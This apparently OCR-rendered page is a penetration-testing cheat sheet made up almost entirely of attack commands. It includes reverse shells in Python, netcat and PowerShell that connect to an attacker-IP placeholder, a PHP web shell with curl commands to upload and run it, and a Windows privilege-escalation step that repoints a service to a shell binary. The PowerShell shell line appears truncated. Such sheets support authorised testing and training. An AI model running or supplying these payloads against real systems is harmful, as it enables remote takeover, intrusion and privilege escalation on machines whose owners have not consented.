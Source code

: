 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  
```

#### **Netcat Reverse Shell (Linux)**

```bash
nc -e /bin/bash <attacker-IP> 4444  
```

#### **PowerShell Reverse Shell (Windows)**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker-IP>",4444)
```

* * *

### Web Shell Exploits

#### **PHP Web Shell**

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

#### **Uploading a Web Shell**

```bash
curl -F "file=@shell.php" http://target.com/upload.php  
```

#### **Executing Commands via Web Shell**

```bash
http://target.com/uploads/shell.php?cmd=whoami  
```

* * *

### Windows Privilege Escalation via Services

#### **Identifying Misconfigured Services**

```powershell
Get-Service | Where-Object {$_.StartType -eq "Auto"}  
```

#### **Modifying a Service to Run a Reverse Shell**

```powershell
sc config <service> binpath= "C:\path\to\shell.exe"  
sc start <service>  
```

* * *
